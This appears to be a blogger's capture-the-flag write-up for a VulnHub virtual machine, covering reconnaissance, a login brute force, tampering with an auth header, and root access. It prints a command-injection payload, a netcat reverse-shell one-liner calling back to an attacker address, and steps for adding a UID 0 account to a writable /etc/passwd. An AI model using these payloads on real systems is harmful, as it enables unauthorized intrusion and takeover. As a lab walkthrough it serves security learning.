This was actually the first VulnHub VM that I attempted; download is here. The write up took me 10,000 years to complete because I finished this in the summer and then the semester started so I lost track of time. Better late than never I suppose.
The nmap scan showed that port 80 is open and running nginx 1.14.0. I did some research and found no known vulnerabilities for this.
Since it is an http server, the next step was to check it out and see what we're working with.
It appears to be a social media site. Time to click around. If you click register, you hit a dead end.

However, login still seems to work. This may be our way in. *hint hint*
There's also a button on the main site that is called "users" (how convenient).
Wow, it has their top users AND what their usernames are; it's a dream come true!
With all of this useful information, let's go into burpsuite and try a login attack. Create a list of usernames by using the top monthly users and then for passwords, let's just try worst 100 passwords to see if we get anything.
We have a winner! Let's try logging in to see what happens.
Unfortunately, the profile page is pretty uneventful, so I had to do some more digging. It turns out that one of the response headers is "auth_level". Every user has a "standard user" level so there must be an admin hidden somewhere.
I dug around the Javascript and found a "master_admin_user"; bingo.
Now it's just a matter of modifying the header and refreshing the page.
And we have an admin dashboard, yay!
I tried brute forcing passwords here and that was taking up a lot of time so I tried another approach. I figured it could be an injection of some sort and for the sake of this guide, I'll spare you the boring, frustrating, many failed attempts that I had. One of my tests was trying Linux commands in the username and password fields. Turns out, if I do a ping request in the password field, it works (confirmed with Wireshark screenshot below). The command would look like this:
$(ping –c 5 IP ADDRESS)I pinged 5 times, but you can do however many times you want.
No sanitization = shell time. Set up a netcat listener on your host machine and a one liner reverse shell in the password field:
$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.1.7 1234 >/tmp/f)This gives a dummy shell!
There's a goofy way to fix the shell; you set the stty settings in order to make this work...screenshots below.
 After digging around, I noticed that you can write to the /etc/passwd file. This shouldn't matter because passwords are normally stored in /etc/shadow, but back in the day they were stored in /etc/passwd and the password hash in /etc/passwd takes precedence over the hash in /etc/shadow. So...we can just create our own root account since user are identified by their user ID, not name so as long as the user has the ID of 0, we're good to go! We do need to create a password hash for the user and this can be done with a simple perl function:
perl -le 'print crypt("LOL", "LOL")'The first parameter is the password itself.
Once that's created, just add the user to /etc/passwd.
Then I just logged in as LOL and boom, we're root :) Flag is pretty easy to find after that. Hope that was a thorough first guide, I hope to make more of these in the future!
